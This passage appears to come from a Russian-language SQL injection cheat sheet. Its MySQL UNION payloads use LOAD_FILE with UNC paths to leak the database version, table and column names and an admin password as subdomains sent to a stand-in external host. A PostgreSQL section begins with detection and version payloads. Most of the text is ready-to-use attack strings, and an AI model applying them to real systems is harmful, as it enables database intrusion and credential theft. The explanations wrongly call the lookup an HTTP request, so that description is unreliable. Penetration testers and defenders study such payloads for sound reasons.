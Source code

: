 - **1. Получение версии бд:**
```
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT @@version), '.example.com\\test')) -- #
```
- `CONCAT('\\\\', (SELECT @@version), '.example.com\\test')` формирует URL, например: `\\5.7.35.example.com\test`.
- `LOAD_FILE()` выполняет HTTP-запрос на этот URL, передавая версию базы данных как поддомен.

- **2. Определение таблиц:**
```
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1), '.example.com\\test')) -- #
```
- `information_schema.tables` содержит информацию о всех таблицах в базе данных.
- `table_schema = DATABASE()` ограничивает выборку текущей базой данных.
- `LIMIT 1` возвращает только одну таблицу (первую в списке).
- `CONCAT('\\\\', (SELECT table_name), '.example.com\\test')` формирует URL, например: `\\users.example.com\test`.
- `LOAD_FILE()` выполняет HTTP-запрос на этот URL, передавая название таблицы как поддомен.

- **3. Определение название столбцов в бд:**
```
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT column_name FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users' LIMIT 1), '.example.com\\test')) -- #
```
- `information_schema.columns` содержит информацию о всех столбцах в базе данных.
- `table_schema = DATABASE()` ограничивает выборку текущей базой данных.
- `table_name = 'users'` указывает на конкретную таблицу.
- `LIMIT 1` возвращает только один столбец (первый в списке).
- `CONCAT('\\\\', (SELECT column_name), '.example.com\\test')` формирует URL, например: `\\id.example.com\test`.
- `LOAD_FILE()` выполняет HTTP-запрос на этот URL, передавая название столбца как поддомен.

- **4. Вывод данных их столбца в таблице:**
```
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE username = 'admin' LIMIT 1), '.example.com\\test')) -- #
```
- `SELECT password FROM users WHERE username = 'admin'` выбирает пароль для пользователя `admin`.
- `LIMIT 1` ограничивает результат одной строкой.
- `CONCAT('\\\\', (SELECT password), '.example.com\\test')` формирует URL, например: `\\admin123.example.com\test`.
- `LOAD_FILE()` выполняет HTTP-запрос на этот URL, передавая данные из столбца как поддомен.

## PostgreSQL

- **Обнаружение:**
```
'
```

- **Получение версии:**
```
' UNION SELECT version(), NULL --
```
